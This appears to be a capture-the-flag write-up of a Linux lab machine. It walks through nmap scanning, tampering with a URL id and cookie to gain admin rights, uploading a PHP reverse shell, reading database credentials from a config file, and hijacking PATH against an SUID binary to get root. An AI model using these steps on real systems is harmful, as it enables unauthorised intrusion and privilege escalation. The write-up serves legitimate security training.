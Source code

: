 # [OK] - Oopsie

| Difficult: | Easy |
| --- | --- |
| OS: | Linux |
| Last edit: | 26/06/22 |

## Enumeration

The first task was collect information from the target. So, we execute the Nmap to collect the ports and services running in the target.

```bash
nmap -sV -sC 10.129.108.33 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-26 14:34 EDT
Nmap scan report for 10.129.108.33
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
**22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)**
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
**80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))**
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Access the web page on port 80/TCP via Web Browser:

![Untitled](pics/Untitled.png)

We will use the BurpSuite a proxy to intecept requests. With BurpSuite we identify a new path ‘/cdn-cgi/login/’ that access a login page.  Using the optin “Login as Guest”, we access the application with limitations. Navigating through the menu the update option calls attention. But the upload option is only available for the admin user.  Maybe if we bypass this rule, the upload function might be available.

![Untitled](pics/Untitled%201.png)

We need to find a way to escalate our privileges from user Guest to super admin role. One way to try this is by checking if cookies and sessions can be manipulated. As one can observe, there is
a role=guest and user=2233 which we can assume that if we somehow knew the number of super
admin for the user variable, we might be able to gain access to the upload page.

We check the URL on our browsers bar again where there is an id for every user:
[http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=2](http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=2)

![Untitled](pics/Untitled%202.png)

Change id 2 to 1 in URL, we have…

[http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=1](http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=1)

We found the “Admin User Acesses ID”, then we change this information on cookie to get the behavior when access the Upload menu again.

![Untitled](pics/Untitled%203.png)

The upload option is active. We will upload a reverse shell PHP. You can download here:

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![Untitled](pics/Untitled%204.png)

Using a Netcat opened port, we received the reverse shell from the application.

![Untitled](pics/Untitled%205.png)

We got a reverse shell! In order to have a functional shell though we can issue the following

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

![Untitled](pics/Untitled%206.png)

The user Robert is part of the group ***bugtracker*** . Let's try to see if there is any binary within
that group:

```bash
find / -group bugtracker
```

We found a file named ***bugtracker*** with SUID enable. This is GREAT!!

![Untitled](pics/Untitled%207.png)

When we run the file ***bugtracker*** we notice that the cat command is used to display a file in a certain in the report directory. But not this cat command makes use of the environment variable to locate the executable. So our task here is to change the cat environment variable to point to an executable containing a shell.

```bash
# Create new file cat with shell
echo '/bin/sh' > /tmp/cat

# Set execution permission
chmod +x /tmp/cat

# Set /tmp to environment variable
set PATH=/tmp:$PATH

# Execute ***bugtracker again
bugtracker***
```

Now we have a shell and can see the flag in:

`/bin/cat /root/flag.txt`

End!!tks
